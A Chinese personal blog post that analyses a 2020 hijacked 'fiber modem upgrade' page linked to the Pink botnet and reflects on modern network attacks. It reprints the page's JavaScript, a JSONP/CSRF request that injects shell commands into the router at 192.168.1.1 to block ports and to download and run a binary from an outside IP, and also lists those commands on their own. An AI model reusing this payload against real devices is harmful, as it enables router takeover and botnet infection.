



# 从最近披露的Pink僵尸网络想到的


昨天上课的时候无聊刷[V2EX](https://www.v2ex.com/t/810633)，读到 360 Netlab 发布的文章[《一个藏在我们身边的巨型僵尸网络 Pink》](https://blog.netlab.360.com/pinkbot/)，披露了2019年底到2020年春节前后的一个名为"**Pink**"的巨型僵尸网络从被发现到攻防博弈过程的一些细节

文中的攻防过程令我很是激动，因为我想起了在2020年初的一件事

## 光猫升级事件

2020年1月初，访问某些http协议(80端口)的网站，会被劫持到一个联通光猫升级页面




对这个页面的源码在gist上进行了[备份](https://gist.github.com/zu1k/7120d1f71797153eb8c867bb09323eae)，感兴趣的同学可以看一下 [9923](https://gist.github.com/zu1k/7120d1f71797153eb8c867bb09323eae#L9923) 行


### 官方后门

通过查看请求和页面源码可以发现这个页面通过向 `192.168.1.1` 的某个接口进行 **jsonp** 请求来执行命令

```javascript
function ajax(){
    //document.getElementById("tip").innerHTML="请重启光猫，并保持页面不关闭，重启后请立即连接光猫WIFI或者网口，等待五分钟后检查网络是否正常";
    $.ajax(
        {
            dataType: 'jsonp',
            data: "",
            jsonp: 'callback',
            url: 'http://192.168.1.1/createNewFolder.json?enlpassword=1234567890abcdefx1234567890abcdefxx1234567890abcdefxxx1eee;iptables -I OUTPUT -p tcp --dport 443 -j DROP;iptables -I OUTPUT -p udp --dport 123 -j DROP;if [ ! -f /tmp/sdsjw ] %26%26 wget http://182.43.249.225:19735/sdsjw -P /tmp;then chmod 777 /tmp/sdsjw;/tmp/sdsjw;fi; /jsonp?',
            success: function (data) {
                console.log(JSON.stringify(data));   // 这里是返回数据
                //document.getElementById("tip").innerHTML="设备正在升级，请等待五分钟后检查网络是否正常";
            },
            error:function(XLMHttpResponse,textStatus,errorThrown){
                if(XLMHttpResponse.status == 200){
                    //document.getElementById("tip").innerHTML="设备正在升级，请等待五分钟后检查网络是否正常";
                }
            },
            complete:function(XLMHttpResponse){
                if(XLMHttpResponse.status == 200){
                    //document.getElementById("tip").innerHTML="设备正在升级，请等待五分钟后检查网络是否正常";
                }
            }
        }
    );
}
```

很明显，这是一个后门，或者是一个漏洞，我更相信这是一个官方后门

根据它的写法我稍微测试了一下，通过jsonp跨域，进行CSRF，的确可以执行任意命令



如果被利用了，岂不是？？？又有谁知道到底是不是已经被利用了呢，反正我不知道


我很早之前就把光猫设置为桥接模式了，利用自己的路由器拨号，不受该后门影响

局域网也改为另外一个网段了，“192.168.1.1” 根本没有机器


再回过头来看升级页面执行的shell命令:

```bash
iptables -I OUTPUT -p tcp --dport 443 -j DROP;
iptables -I OUTPUT -p udp --dport 123 -j DROP;
if [ ! -f /tmp/sdsjw ] && wget http://182.43.249.225:19735/sdsjw -P /tmp; then
    chmod 777 /tmp/sdsjw;
    /tmp/sdsjw;
fi;
/jsonp?
```

当初看这段命令的时候就觉得非常奇怪

为什么上来第一句就要阻断到所有目标443端口的tcp连接？当初的一个想法是防止用户用https协议，这样用户只能使用80端口的http明文协议，可以进行监听或者劫持等操作。这样也不合理啊，HSTS也不是吃干饭的，再说联通如果通过更新屏蔽掉到443端口的所有请求，不怕用户集体反馈和投诉吗？反正当初是没想通这个谜之操作

再看第二句，也莫名其妙，udp 123端口是NTP服务，找你惹你了，犯不着全部屏蔽掉吧。还是想不明白

往后的命令就比较常规了，下载了一个二进制程序，权限修改为`777`，然后直接执行

### 怀疑被攻击

通过对上面升级执行的命令进行分析，我觉得这些操作很不符合常理，将这些已知信息在小群里交流之后，怀疑可能是一起攻击事件，通过劫持用户的http访问，利用光猫的后门(可能是漏洞，虽然我不信)植入恶意程序

遂决定对`sdsjw`程序进行逆向分析，分析的枯燥过程这里省略了，最后结果就是没有发现什么异常的点，到这里对这个事件的分析便不了了之了（当初的二进制程序我找不到了，现在也下载不到了）


通过逆向mips版的升级程序，我得出了两个结论：

- JEB的MIPS逆向体验很不错
- 毛子的JEB破解版真好用


### 联通工作人员上门升级

2020年5月10号下午，联通工作人员上门进行光猫升级。具体升级方法就是把一块板子通过光猫侧面的口插到主板上，然后通过手机上的app进行固件刷写

在交流的过程中，他透漏光猫大批量被控，有对外攻击流量，接上面要求需要对所有光猫进行升级。我家的光猫在线升级失败，只能到户手动完成。我看了一下他需要上门的名单，看样子我们这个区域关闭了在线管理接口的用户还不少啊哈哈哈



## 我在第一层，人家在第5层

虽然这个事已经过去一年多了，但现在想起来还是有那么一些感触，在运营商与黑客的一轮又一轮攻防博弈中，我有幸记录下其中某个小小的过程。在信息还未对外揭露之前，我无法理解那些莫名其妙的升级指令，甚至怀疑那是一起攻击事件，利用自己微不足道的知识尝试分析却不得结果。当保密期过去之时，我们得以看到整个事件的原貌，不禁感叹，我还是太年轻了啊（好像听到了“长者”的话）

### 关于看待事情

所谓“管中窥豹，略见一斑”，从这件事我学到的第一点便是，要有大局观，要广泛的收集信息，看待某件事时要把时间线放长，这样才能去尽力触及事情的真相

### 关于现代网络攻击

我学到的第二点是关于现代网络攻击。我觉得我对网络攻击的印象还停留在早年的那些简单的漏洞利用，虽然近几年通过网络也吃了不少现代网络攻击事件的瓜，但是并未意识到真正的网络攻击就潜伏在你我身边

通过本次事件我们可以清晰的看出，现代的网络攻击使用的技术更加先进，对隐匿性的要求也更高，如果不是有广泛的监控难以发现。在遇到厂商的狙杀时攻击者能够在第一时间绕过和阻拦，甚至能够在多轮对抗中取得优势将厂商直接阻拦在门外，夺取绝对的控制权，逼迫厂商只能线下进行上门修复

简单列几句文中的原话：

- “至对光猫固件做了多处改动后，还能确保光猫能够正常使用”
- “在与相关厂商的屡次攻防博弈中，PinkBot 的运营者都占据了明显的对抗优势”
- “PinkBot 在整个过程中表现出了极强的针对性和专业性，各方面能力都很均衡，甚至有些可怕”
- “攻击者还使用了ecdsa对配置信息进行了签名”

我觉得不可思议的是这一句：

- “我们一直阶段性的对公网上的 Pink 节点进行持续监测，通过对 2021/10/20日的日志分析，我们仍然可以看到 103024 个 IP 处于日活状态。这表明，当前的 pink 的感染规模仍然在 10w 量级左右，涉及多家设备厂商，按照每个IP对应一个三口之家来计算，受影响人群大概 30w 人左右”

被发现近2年，竟然还没有清除干净，这存活能力得有多强，难以想象

结论：攻击者能力很强，未来遭遇的攻击会更加专业和可怕

### 关于个人安全

关于个人安全，其实我没有发言权，毕竟我也曾踩过别人的水坑

但是我还是要说一句，就是保持差异化，默认的配置只会给攻击者创造便利

再加一句，不要把自己的安全完全托付在别人手中

## 参考链接

- [运营商收回公网 IP 的原因之一](https://www.v2ex.com/t/810633)
- [一个藏在我们身边的巨型僵尸网络 Pink](https://blog.netlab.360.com/pinkbot/)
- [用户端设备ONU被肉鸡攻击实例浅析](https://www.freebuf.com/articles/endpoint/243189.html)

